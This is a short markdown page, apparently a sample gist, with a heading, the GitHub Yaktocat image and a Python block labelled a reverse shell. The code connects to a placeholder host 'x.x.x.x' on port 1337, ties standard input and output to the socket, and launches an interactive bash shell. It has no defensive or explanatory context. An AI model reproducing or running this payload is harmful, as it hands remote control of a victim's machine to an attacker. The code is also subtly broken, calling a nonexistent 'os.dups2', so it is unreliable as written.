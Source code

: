 # This is a H1 Tag

![Image of Yaktocat](https://octodex.github.com/images/yaktocat.png)

```python
# This is a python reverse shell gist
import os
import socket
import subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("x.x.x.x", 1337))

os.dups2(s.fileno(),0)
os.dups2(s.fileno(),1)
os.dups2(s.fileno(),2)

subprocess.call(["/bin/bash", "-i"])
```
